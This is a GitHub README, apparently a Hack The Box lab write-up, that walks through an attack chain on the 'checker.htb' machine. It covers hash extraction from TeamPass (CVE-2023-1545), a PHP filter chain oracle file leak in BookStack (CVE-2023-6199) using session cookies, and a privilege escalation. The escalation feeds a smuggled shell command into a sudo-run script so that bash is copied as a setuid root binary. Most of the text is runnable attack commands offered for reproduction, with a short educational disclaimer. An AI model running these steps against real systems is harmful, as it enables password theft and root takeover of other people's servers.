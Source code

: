 # 🔐 TeamPass 3.0.0.20 (CVE-2023-1545) Hash Extraction & PHP Filter Chain Oracle Exploit in Bookstack V23.10.2 (CVE-2023-6199)

This repository contains the tools, commands, and exploit steps used to solve a Hack The Box lab involving TeamPass and PHP filter chain vulnerabilities. It is intended as a reference for others who want to learn from or reproduce the attack chain.

![TeamPass Hash Extraction](teampass.png)

This repository documents how to extract password hashes from a vulnerable TeamPass instance, exploit PHP filter chains to leak files, and perform privilege escalation through custom-crafted exploits.

---

## 🧪 Extracting TeamPass Password Hashes

```bash
python3 teampass.py http://checker.htb:8080
```

---

## 🗂️ Leaking Files Using PHP Filter Chain Oracle

![PHP Filter Chain Oracle](php_filter_chain_oracle.png)

Navigate into the exploit directory:

```bash
cd php_filter_chains_oracle_exploit/
```

Run the exploit with your custom parameters:

```bash
python3 filters_chain_oracle_exploit.py \
  --target '<vulnerable_url_path>' \
  --file '<path_to_extract>' \
  --verb PUT \
  --parameter html \
  --proxy http://127.0.0.1:8080 \
  --log extracted_data.txt \
  --headers '{"X-CSRF-TOKEN": "<INPUT_VALUE_HERE>", "Cookie": "XSRF-TOKEN=<INPUT_VALUE_HERE>; bookstack_session=<INPUT_VALUE_HERE>", "Content-Type": "application/x-www-form-urlencoded"}'
```

---

## 🚀 Privilege Escalation

![Privilege Escalation](privesc.png)

### 1. Compile the exploit

```bash
gcc -o exploit exploit.c
```

### 2. Trigger the exploit using named pipes

```bash
mkfifo pipe
cat pipe | ./exploit '" or 1=1; \! /bin/sh -c "cp /bin/bash /home/reader/.bash && chmod 4755 /home/reader/.bash"; #' &
sudo /opt/hash-checker/check-leak.sh bob > pipe
```

---

### ✅ Verifying Exploit Success

```bash
ls -l /home/reader/.bash
/home/reader/.bash -p
whoami
```

---

## 📁 File Overview

```
checker/
├── php_filter_chains_oracle_exploit/
├── teampass.png
├── php_filter_chain_oracle.png
├── privesc.png
├── exploit
├── exploit.c
├── teampass.py
└── check_leak
```

---

## ⚠️ Disclaimer

> This repository is created for educational purposes only. Do not use these techniques on any system without **explicit permission**.
